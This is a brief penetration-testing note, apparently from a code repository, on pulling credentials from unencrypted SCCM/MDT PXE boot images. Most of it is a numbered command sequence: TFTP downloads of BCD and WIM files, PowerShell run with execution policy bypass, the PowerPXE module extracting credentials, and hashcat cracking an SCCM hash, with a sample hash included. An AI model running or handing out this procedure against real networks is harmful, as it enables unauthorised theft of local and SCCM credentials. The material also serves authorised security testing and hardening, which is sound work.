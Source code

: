 # Boot Image credentials recovery

https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/sccm-mecm/cred-1-pxe-abuse#unencrypted-boot-mediums

## Unencrypted Boot Mediums

PXE Boot mediums may be deployed to endpoints wherein the PXE boot image is not encrypted. When this is the case it is trivial to initiate the PXE installation sequence and pillage credentials on the resulting image when installation is complete. 

Broadly, this means it is trivial to obtain local SAM hashes and SCCM secrets from the installed image.

## Requirements

1) Unauthenticated network access

2) Line of sight to DHCP server (optional, but helps)

3) Line of sight to PXE-enabled distribution point



#### 1) Request IP and PXE boot preconfigure details from DHCP ( MDT IP)

#### 2) Use TFTP to request each BCD file and enumerate the configuration for all of them.

#### 3) Use SSH connection

#### 4: tftp -i MDT_IP GET "\tmp\x64{30.....28}.bcd"

#### 5: powershell.exe -executionpolicy bypass

#### 6: Import-Module .\PowerPXE.ps1

#### 7: $bcdfILE = "conf.bcd"

#### 8: Get-WimFile -bcdFile $BCDFile

#### 9: tftp -i MDT_IP GET "PXE\BOOT\IMAGE\LOCATION" pxeboot.wim

#### 10: Get-FindCredentials -WimFile pxeboot.wim

#### 11: Crack hash

    hashcat-6.2.6-SCCM.exe -m 19850 -a 0 $sccm$aes128$0000edec1400000010330000203300000e6600000000000008b5ea1dab29bdd0de62e6506b108b5c <password-file.txt> <rules>

#### 12: VOILA!

